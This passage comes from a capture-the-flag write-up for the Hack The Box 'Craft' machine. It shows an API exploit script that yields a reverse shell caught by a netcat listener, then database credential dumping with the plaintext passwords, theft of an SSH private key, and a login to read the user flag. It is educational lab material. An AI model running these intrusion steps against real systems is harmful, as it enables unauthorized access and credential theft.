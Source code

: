 ```
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```
I set up my listener and then ran the python script and got a reverse shell
```
# nc -lvnp 9999
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 10.10.10.110.
Ncat: Connection from 10.10.10.110:43285.
/bin/sh: can't access tty; job control turned off
/opt/app # 
```
First thing I did was run a ```whoami``` and when I saw I was root I thought I was done. Soon I releaized that was not the case when I went to grab the user and root flags but both of them were not there. I was confused so I ran ```LinEnum.sh``` to see if it would find anything and sure enough it finds that I am in a Docker Container. I spent a while trying to figure out how to break out of the docker container with no luck and realized this was most likely not the solution and looked elsewhere. I went back to the github page and saw the ```dbtest.py``` script that interacts with the sql database so it gave me the idea to do the same with my own python script. First I wrote one to list all of the tables in the database and there was a ```user``` database and then I wrote another one to read the contents of that table. I used a python SimpleHTTPServer to copy the files over to the box. The credentials I got from the table are below
```
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```
I tried to ssh in using some of the new credentials but that did not work so I went back to the Github page and tried to log in with the new credentials and I could as the user ```gilfoyle```. Right away I see he has a private github repo and in there he has some ssh keys. I grab the private key and download it and use that to ssh into the box as the user ```gilfoyle```
```
# ssh -i id_rsa gilfoyle@10.10.10.110
```
It asks for a password so I enter the password for I got from the SQL database ```ZEU3N8WNM2rh4T```.
```
Enter passphrase for key 'id_rsa': 
Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Nov  7 17:54:03 2019 from 10.10.14.39
gilfoyle@craft:~$
```
I can now read the ```user.txt``` file
```
gilfoyle@craft:~$ cat user.txt 
bbf4b0cadfa3d4e***************
```
Running ```ls -la``` in gilfoyles ```/home``` directory will reveal an interesting file named ```.vault-token```.
```
gilfoyle@craft:~$ ls -la
total 36
```